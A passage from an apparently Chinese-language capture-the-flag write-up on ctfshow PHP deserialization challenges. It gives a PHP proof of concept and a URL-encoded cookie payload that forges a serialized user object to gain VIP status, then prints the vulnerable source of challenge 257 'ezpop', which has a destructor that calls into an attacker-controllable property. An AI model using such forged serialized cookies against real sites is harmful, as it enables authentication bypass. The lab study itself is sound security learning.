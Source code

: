 分析：其余同上，不同的是要求username和password不等

改一下值就行：

poc:

```php
<?php

class ctfShowUser{
    public $username='xxxxxx1';
    public $password='xxxxxx2';
    public $isVip=true;
}

$a = new ctfShowUser();
echo urlencode(serialize($a));
```

payload：

```
get:?username=xxxxxx1&password=xxxxxx2

cookie:user=O%3A11%3A%22ctfShowUser%22%3A3%3A%7Bs%3A8%3A%22username%22%3Bs%3A7%3A%22xxxxxx1%22%3Bs%3A8%3A%22password%22%3Bs%3A7%3A%22xxxxxx2%22%3Bs%3A5%3A%22isVip%22%3Bb%3A1%3B%7D
```



## 257 ezpop

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-12-02 17:44:47
# @Last Modified by:   h1xa
# @Last Modified time: 2020-12-02 20:33:07
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
highlight_file(__FILE__);

class ctfShowUser{
    private $username='xxxxxx';
    private $password='xxxxxx';
    private $isVip=false;
    private $class = 'info';

    public function __construct(){
        $this->class=new info();
    }
    public function login($u,$p){
        return $this->username===$u&&$this->password===$p;
    }
    public function __destruct(){
        $this->class->getInfo();
    }

}

```